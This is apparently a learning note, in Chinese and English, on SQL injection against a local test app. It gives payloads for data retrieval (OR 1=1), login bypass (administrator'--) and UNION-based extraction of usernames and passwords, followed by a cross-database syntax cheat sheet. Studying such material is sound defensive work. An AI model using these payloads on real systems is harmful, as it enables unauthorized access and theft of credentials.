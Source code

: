 # sql注入

## SQL injection vulnerability

+ in WHERE clause allowing retrieval of hidden data
  ```html
  productCode参数传递 < '+OR+1=1--+ >
  ```  
  > http://localhost:8080/sql/p2?productCode='+OR+1=1--+
  ```html
  执行sql如下:
   select * from products where productCode = '' OR 1=1-- ' AND productID = 1001;
  ```

+ Subverting application logic
  ```
  登录逻辑：
  SELECT * FROM users WHERE username = '${username}' AND password = '${password}'
  An attacker can submit the input: < administrator'-- >
  执行如下：
  SELECT * FROM users WHERE username = 'administrator'--' AND password = '${password}'
  ```

+ Retrieving data from other database tables
  ```
  SELECT name, description FROM products WHERE category = 'Gifts'
  An attacker can submit the input: < ' UNION SELECT username, password FROM users-- >
  执行如下：
  SELECT name, description FROM products WHERE category = '' UNION SELECT username, password FROM users--'
  ```


+ Second-order SQL injection
  ![二阶段sql注入](image/二阶sql注入.png)







#### SQL injection cheat sheet

+ 字符串拼接
    - Oracle	'foo'||'bar'
    - Microsoft	'foo'+'bar'
    - PostgreSQL	'foo'||'bar'
    - MySQL	'foo' 'bar' [Note the space between the two strings]
    - CONCAT('foo','bar')

+ 注释
    + Oracle
        + `--comment`
    + Microsoft
        + `--comment`
        - `/*comment*/`
    + PostgreSQL
        + `--comment`
        - `/*comment*/`
    + MySQL
        + `#comment`
        + `-- comment [Note the space after the double dash]`
        + `/*comment*/`

+ 字符串截取
  ```
  Oracle        SUBSTR('foobar', 4, 2)
  Microsoft     SUBSTRING('foobar', 4, 2)
  PostgreSQL    SUBSTRING('foobar', 4, 2)
  MySQL         SUBSTRING('foobar', 4, 2)
  ```

